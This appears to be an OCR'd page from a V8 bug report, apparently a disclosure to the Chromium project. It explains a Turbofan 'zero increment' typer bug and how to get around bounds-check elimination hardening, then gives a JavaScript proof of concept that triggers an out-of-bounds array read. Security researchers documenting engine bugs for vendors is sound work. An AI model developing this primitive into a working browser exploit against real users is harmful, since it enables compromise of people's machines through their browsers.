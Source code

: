 # Third PoC  
  
> I'm attaching a proof-of-concept code for the zero increment bug that implements an OOB access primitive. Since the JSCreateArray vector is fixed, I had to use a different one. It turns out though there's a public blog post at https://doar-e.github.io/blog/2019/05/09/circumventing-chromes-hardening-of-typer-bugs/ which explains how to bypass the bounds check elimination hardening. Basically, if you make v8 notice an OOB access on the array variable you're going to abuse, Turbofan will emit a `NumberLessThan` node instead of `CheckBounds`. `NumberLessThan` is not covered by https://crbug.com/v8/8806 and can still be eliminated.  
```  
function main() {  
  function trigger(str) {  
    var x = 0;  
    var k = 0;  
    str = str | 0;  
    str = Math.min(str, 2);  
    str = Math.max(str, 1);  
    if (str == 1) {  
      str = "30";  
    }  
    for (var i = str; i < 0x1000; i -= x) {  
        if (++k > 1) {  
          break;  
        }  
    }  
  
    if (typeof i == 'string') {  
      i = 1;  
    }  
  
    i += 1;  
    i >>= 1;  
    i += 2;  
    i >>= 1;  
  
    var array = [0.1, 0.1, 0.1, 0.1];  
    var array2 = [];  
    return [array[i], array, array2];  
  };  
  
  for (let i = 0; i < 20000 + 1; ++i) {  
    result = trigger(1 + i % 2);  
  }  
  
  console.log(result[0]);  
}  
  
%NeverOptimizeFunction(main);  
main();  
```  
  